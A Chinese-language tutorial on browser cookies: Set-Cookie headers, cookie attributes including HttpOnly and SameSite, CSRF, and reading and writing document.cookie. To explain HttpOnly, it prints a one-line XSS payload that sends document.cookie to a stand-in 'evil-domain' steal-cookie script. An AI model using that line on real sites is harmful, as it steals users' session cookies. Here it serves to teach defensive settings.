

[Cookie](https://www.wangdoc.com/javascript/bom/cookie.html)

## 1、概述 - ♥
`Cookie` 是服务器保存在浏览器的一小段文本信息，一般大小不能超过`4KB`。浏览器每次向服务器发出请求，就会自动附上这段信息。

### Cookie不适合客户端存储

`Cookie` 不是一种理想的客户端储存机制。
- 它的容量很小（`4KB`），缺乏数据操作接口，而且会影响性能。
- 客户端储存应该使用 `Web storage API` 和 `IndexedDB`。
- **只有那些每次请求都需要让服务器知道的信息，才应该放在 `Cookie` 里面。**
### Cookie主要用途
`Cookie `主要保存状态信息，以下是一些主要用途。
- 对话（`session`）管理：保存登录、购物车等需要记录的信息。
- 个性化信息：保存用户的偏好，比如网页的字体大小、背景色等等。
- 追踪用户：记录和分析用户行为，比如系统自动推送。

### Cookie的元数据
每个 `Cookie` 都有以下几方面的元数据。
- `Cookie` 的名字
- `Cookie` 的值（真正的数据写在这里面）
- 到期时间（超过这个时间会失效）
- 所属域名（默认为当前域名）
- 生效的路径（默认为当前网址）

例如，用户访问网址`www.example.com`，服务器在浏览器写入一个 `Cookie`。这个` Cookie` 的所属域名为`www.example.com`，生效路径为根路径`/`。如果 `Cookie` 的生效路径设为`/forums`，那么这个 `Cookie` 只有在访问`www.example.com/forums`及其子路径时才有效。以后，浏览器访问某个路径之前，就会找出对该域名和路径有效，并且还没有到期的 `Cookie`，一起发送给服务器。

### cookieEnabled属性、document.cookie属性
用户可以设置浏览器不接受 `Cookie`，也可以设置不向服务器发送 `Cookie`。`window.navigator.cookieEnabled`属性返回一个布尔值，表示浏览器是否打开`Cookie` 功能。
```js
window.navigator.cookieEnabled // true

// 获取当前网页的 Cookie
document.cookie // "id=foo;key=bar"
```

### 使用Cookie注意事项

不同浏览器对 `Cookie` 数量和大小的限制，是不一样的。一般来说，
- 单个域名设置的 `Cookie` 不应超过`30`个，
- 每个 `Cookie` 的大小不能超过`4KB`。
- 超过限制以后，`Cookie` 将被忽略，不会被设置。

浏览器的同源政策规定，两个网址只要域名相同，就可以共享 `Cookie`。注意，这里不要求协议相同。也就是说，`http://example.com`设置的 `Cookie`，可以被`https://example.com`读取。
## 2、Cookie 与 HTTP 协议 - ♥
- HTTP 响应：Cookie 的生成：[link](./4-cookie.html#_2-1-http-响应：cookie-的生成)
- HTTP 请求：Cookie 的发送：[link](./4-cookie.html#_2-2-http-请求：cookie-的发送)

`Cookie` 由 `HTTP` 协议生成，主要供 `HTTP` 协议使用。
### 2.1 HTTP 响应：Cookie 的生成
服务器如果希望在浏览器保存 `Cookie`，就要在 `HTTP` 响应的头信息里面，放置一个`Set-Cookie`字段。
```js
// 响应头 - 浏览器保存一个名为foo的 Cookie，它的值为bar
`Set-Cookie: foo=bar`
```
一个`Set-Cookie`字段里面，可以同时包括多个属性，没有次序的要求。

#### 修改cookie

如果服务器想改变一个早先设置的 `Cookie`，必须同时满足四个条件：`Cookie` 的
- `key`
- `domain`
- `path`
- `secure`

 只要有一个属性不同，就会生成一个全新的 `Cookie`，而非替换掉`Cookie`。
```js
// 原始的 `Cookie` 是用如下的`Set-Cookie`设置。
'Set-Cookie: key1=value1; domain=example.com; path=/blog'

// 改变上面这个 Cookie 的值，就必须使用同样的Set-Cookie。
'Set-Cookie: key1=value2; domain=example.com; path=/blog'

// 下面设置了一个全新的同名 Cookie，但是path属性不一样
// 下一次访问example.com/blog的时候，浏览器将向服务器发送两个同名的 Cookie。
'Set-Cookie: key1=value2; domain=example.com; path=/'
```

### 2.2 HTTP 请求：Cookie 的发送
浏览器向服务器发送 `HTTP` 请求时，每个请求都会带上相应的 `Cookie`。也就是说，把服务器早前保存在浏览器的这段信息，再发回服务器。这时要使用 `HTTP` 头信息的`Cookie`字段。
```js
// 请求头 - 向服务器发送名为foo的 Cookie，值为bar
`Cookie: foo=bar`

// Cookie字段可以包含多个 Cookie，使用分号（;）分隔。
'Cookie: name=value; name2=value2; name3=value3'
```

服务器收到浏览器发来的 `Cookie` 时，有两点是无法知道的。
- `Cookie` 的各种属性，比如何时过期。
- 哪个域名设置的 `Cookie`，到底是一级域名设的，还是某一个二级域名设的。
## 3、Cookie 的属性 - ♥
- Expires，Max-Age：[link](./4-cookie.html#_3-1-expires，max-age)
- Domain，Path：[link](./4-cookie.html#_3-2-domain，path)
- Secure，HttpOnly：[link](./4-cookie.html#_3-3-secure，httponly)
- SameSite：[link](./4-cookie.html#_3-4-samesite)

### 3.1 Expires，Max-Age

#### Expires - Cookie到期时间
`Expires`属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 `Cookie`。它的值是 `UTC` （`Universal Time Coordinated`，世界协调时间）格式，可以使用`Date.prototype.toUTCString()`进行格式转换。
```js
// koa
router.get('/detail', async ctx => {
  ctx.set('Set-Cookie',`name=zy;Expires=Wed, 16 Apri 2021 17:00:00 GMT`)
  await ctx.render('detail')
})
```
- 不设置`Expires`该属性，或者设为`null`，`Cookie` 只在当前会话（`session`）有效，浏览器窗口一旦关闭，当前 `Session` 结束，该 `Cookie` 就会被删除。
- 浏览器根据本地时间，决定 `Cookie` 是否过期，由于本地时间是不精确的，所以没有办法保证 `Cookie` 一定会在服务器指定的时间过期。

#### Max-Age - Cookie有效时长
`Max-Age`属性指定从现在开始 `Cookie` 存在的秒数，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 `Cookie`。

- 如果同时指定了`Expires`和`Max-Age`，那么`Max-Age`的值将优先生效。
- 如果`Set-Cookie`字段没有指定`Expires`或`Max-Age`属性，那么这个 `Cookie` 就是 `Session Cookie`，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 `Cookie`。
```js
// koa
router.get('/detail', async ctx => {
  ctx.set('Set-Cookie',`name=zy;Max-Age=${60 * 60 * 24 * 365}`)
  await ctx.render('detail')
})
```
### 3.2 Domain，Path

#### Domain

`Domain`属性指定浏览器发出 `HTTP` 请求时，哪些域名要附带这个 `Cookie`。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 `Cookie`。

比如，`example.com`不设置 `Cookie` 的`domain`属性，那么`sub.example.com`将不会附带这个 `Cookie`。如果指定了`domain`属性，那么子域名也会附带这个 `Cookie`。

如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 `Cookie`。

#### Path
`Path`属性指定浏览器发出 `HTTP` 请求时，哪些路径要附带这个 `Cookie`。只要浏览器发现，`Path`属性是 `HTTP` 请求路径的开头一部分，就会在头信息里面带上这个 `Cookie`。

比如，`path`属性是`/`，那么请求`/docs`路径也会包含该 `Cookie`。当然，前提是域名必须一致。

### 3.3 Secure，HttpOnly

#### Secure
`Secure`属性指定浏览器只有在加密协议 `HTTPS` 下，才能将这个 `Cookie` 发送到服务器。该属性只是一个开关，不需要指定值。
- 如果当前协议是 `HTTP`，浏览器会自动忽略服务器发来的`Secure`属性。
- 如果通信是 `HTTPS` 协议，该开关自动打开。

#### HttpOnly
`HttpOnly`属性指定该 `Cookie` 无法通过 `JavaScript` 脚本拿到，主要是`document.cookie`属性、`XMLHttpRequest`对象和 `Request API` 都拿不到该属性。这样就防止了该 `Cookie` 被脚本读到，只有浏览器发出 `HTTP` 请求时，才会带上该 `Cookie`。

```js
router.get('/detail', async ctx => {
  // ctx.set('Set-Cookie', 'key1=666; Max-Age=3600;path=/')
  ctx.set('Set-Cookie', 'key1=888; path=/detail;')
  ctx.set('Set-Cookie', 'key1=888; path=/detail;HttpOnly') // 无法通过脚本拿到
  await ctx.render('detail')
})
```
<enlarge></enlarge>

如果设置了一个 `Cookie` 的`HttpOnly`属性，下面代码就不会读到该 `Cookie`。
```js
// 跨站点载入一个恶意脚本，能够将当前网页的 Cookie 发往第三方服务器
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 3.4 SameSite

`Chrome 51` 开始，浏览器的 `Cookie` 新增加了一个`SameSite`属性，用来防止 `CSRF` 攻击和用户追踪。

- **`CSRF`跨站请求伪造(cross-site request forgery)**：`Cookie`往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 `Cookie` 的 `HTTP` 请求，这就是 **CSRF 攻击**。

举例来说，用户登陆了银行网站`your-bank.com`，银行服务器发来了一个 `Cookie`。用户后来又访问了恶意网站`malicious.com`，上面有一个表单。
```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```
用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 `Cookie` 的请求。为了防止这种攻击，表单一般都带有一个随机 `token`，告诉服务器这是真实请求。
```js
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```

#### 第三方cookie
第三方网站引导发出的 `Cookie`，就称为第三方 `Cookie`。它除了用于 `CSRF` 攻击，还可以用于用户追踪。比如，`Facebook` 在第三方网站插入一张看不见的图片。
```js
// 浏览器加载上面代码时，就会向 Facebook 发出带有 Cookie 的请求，
// 从而 Facebook 就会知道你是谁，访问了什么网站。

```

#### SameSite属性的三个值
`Cookie` 的`SameSite`属性用来限制第三方 `Cookie`，从而减少安全风险。它可以设置三个值。
- **Strict**
`Strict`最为严格，完全禁止第三方 `Cookie`，跨站点时，任何情况下都不会发送 `Cookie`。换言之，只有当前网页的 `URL` 与请求目标一致，才会带上 `Cookie`。
```json
// 这个规则过于严格，可能造成非常不好的用户体验。
Set-Cookie: CookieName=CookieValue; SameSite=Strict;
```
比如，当前网页有一个 `GitHub` 链接，用户点击跳转就不会带有 `GitHub` 的 `Cookie`，跳转过去总是未登陆状态。
- **Lax**

`Lax`规则稍稍放宽，大多数情况也是不发送第三方 `Cookie`，但是导航到目标网址的 `Get` 请求除外。
```json
Set-Cookie: CookieName=CookieValue; SameSite=Lax;
```
导航到目标网址的 `GET` 请求，只包括三种情况：链接，预加载请求，GET 表单。详见下表。
|请求类型|示例|正常情况|Lax|
|--|----|--|--|
|链接|`<a href="..."></a>`|发送 `Cookie`|发送 `Cookie`|
|预加载|`<link rel="prerender" href="..."/>`|发送 `Cookie`|发送 `Cookie`|
|`GET` 表单|`<form method="GET" action="...">`|发送 `Cookie`|发送 `Cookie`|
|`POST` 表单|`<form method="POST" action="...">`|发送 `Cookie`|不发送|
|`iframe`|`<iframe src="..."></iframe>`|发送 `Cookie`|不发送|
|`AJAX`|`$.get("...")`|发送 `Cookie`|不发送|
|`Image`|``|发送 `Cookie`|不发送|
设置了`Strict`或`Lax`以后，基本就杜绝了 `CSRF` 攻击。当然，前提是用户浏览器支持 `SameSite` 属性。
- **None**

`Chrome` 计划将`Lax`变为默认设置。这时，网站可以选择显式关闭`SameSite`属性，将其设为`None`。不过，前提是必须同时设置`Secure`属性（`Cookie` 只能通过 `HTTPS` 协议发送），否则无效。
```json
// 下面的设置无效。
Set-Cookie: widget_session=abc123; SameSite=None

// 下面的设置有效。
Set-Cookie: widget_session=abc123; SameSite=None; Secure
```

## 4、document.cookie - 可读写
`document.cookie`属性用于读写当前网页的 `Cookie`，前提是该 `Cookie` 不能有`HttpOnly`属性。
```js
// 服务端设置cookie
router.get('/detail', async ctx => {
  // ctx.set('Set-Cookie', 'key1=888; path=/detail;')
  ctx.set('Set-Cookie', 'key2=999; path=/;')
  // ctx.set('Set-Cookie', 'key1=888; path=/detail;HttpOnly') // 无法通过脚本拿到
  await ctx.render('detail')
})
```
```js
// 客户端 - 获取cookie
// 一次性读出两个 Cookie, 必须手动还原，才能取出每一个 Cookie 的值。
// document.cookie // "key1=888; key2=999"
let cookies = document.cookie.split(';')
cookies.forEach(cookie => {
  let kv = cookie.split('=')
  console.log(kv[0], kv[1])
})
```

### 添加cookie - 一次只能添加一个
`document.cookie`属性是可写的，可以通过它为当前网站添加 `Cookie`。
- 写入时，`Cookie` 的值必须写成`key=value`的形式，等号两边不能有空格。
- 必须对分号、逗号和空格进行转义（它们都不允许作为 `Cookie` 的值），这可以用`encodeURIComponent`方法达到。
- `document.cookie`一次只能写入一个 `Cookie`，而且写入并不是覆盖，而是添加。
- 写入 Cookie 的时候，可以一起写入 `Cookie` 的属性。
```js
document.cookie = 'name1=zy1'
document.cookie = 'name2=zy2'
// 写入 Cookie 的时候，同时设置了expires属性
document.cookie = 'name3=zy3;expires=Fri,16 Apri 2021 14:53:00'
document.cookie // "name1=zy1; name2=zy2; name3=zy3"
```
各个属性的写入注意点如下：
- `path`属性必须为绝对路径，默认为当前路径。
- `domain`属性值必须是当前发送 `Cookie` 的域名的一部分。
  - 比如，当前域名是`example.com`，就不能将其设为`foo.com`。该属性默认为当前的一级域名（不含二级域名）。
- `max-age`属性的值为秒数。
- `expires`属性的值为 `UTC` 格式，可以使用`Date.prototype.toUTCString()`进行日期格式转换。
```js
// document.cookie写入 Cookie 
// Cookie 的属性一旦设置完成，就没有办法读取这些属性的值。
document.cookie = 'fontSize=14; '
  + 'expires=' + someDate.toGMTString() + '; '
  + 'path=/subdirectory; '
  + 'domain=*.example.com';
```

`document.cookie`读写行为的差异（一次可以读出全部 `Cookie`，但是只能写入一个 `Cookie`），与 `HTTP` 协议的 `Cookie` 通信格式有关。
- 浏览器向服务器发送 `Cookie` 的时候，`Cookie`字段是使用一行字符串，将所有 `Cookie` 全部发送；
- 服务器向浏览器设置 `Cookie` 的时候，`Set-Cookie`字段是一行设置一个 `Cookie`。

**删除一个现存 Cookie 的唯一方法，是设置它的 expires 属性为一个过去的日期。**
```js
// 名为fontSize的 Cookie 的值为空，过期时间设为1970年1月1月零点，就等同于删除了这个 Cookie。
document.cookie = 'fontSize=;expires=Thu, 01-Jan-1970 00:00:01 GMT';
```

### 5、参考链接

- [HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies), by MDN
- [Using the Same-Site Cookie Attribute to Prevent CSRF Attacks](https://www.netsparker.com/blog/web-security/same-site-cookie-attribute-prevent-cross-site-request-forgery/)
- [SameSite cookies explained]()
- Tough Cookies, Scott Helme
- Cross-Site Request Forgery is dead!, Scott Helme